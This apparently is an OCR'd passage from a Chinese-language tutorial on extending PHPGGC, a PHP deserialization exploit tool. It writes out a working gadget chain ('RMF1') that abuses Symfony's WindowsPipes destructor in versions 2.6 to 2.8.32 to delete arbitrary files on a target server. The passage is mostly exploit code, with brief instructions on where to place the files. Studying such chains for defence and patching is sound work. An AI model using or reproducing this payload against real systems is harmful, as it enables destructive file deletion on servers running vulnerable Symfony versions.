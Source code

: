 ```php
<?php

namespace PHPGGC\GadgetChain;

abstract class FileDelete extends \PHPGGC\GadgetChain
{
    public static $type = self::TYPE_FD;
    public $parameters = [
        'file_name'
    ];
}
```

这个类就可以作为POP链拿来使用了

然后在`Symfony`目录下创建`RMF/1`，并创建`chain`和`gadgets`

`gadgetchains/Symfony/RMF/1/chain.php`

```php
<?php

namespace GadgetChain\Symfony;

class RMF1 extends \PHPGGC\GadgetChain\FileDelete
{
    public $version = '2.6 <= 2.8.32';
    public $vector = '__destruct';
    public $author = 'crlf';
    public $informations = 'Remove remote file.';

    public function generate(array $parameters)
    {
        $input = $parameters['file_name'];

        return new \Symfony\Component\Process\Pipes\WindowsPipes($input);
    }
}

```

`gadgetchains/Symfony/RMF/1/gadgets.php`

```php
<?php

namespace Symfony\Component\Process\Pipes;


class WindowsPipes
{
    private $files = array();

    public function __construct($input)
    {
        $this->files = array($input);
    }

}
```
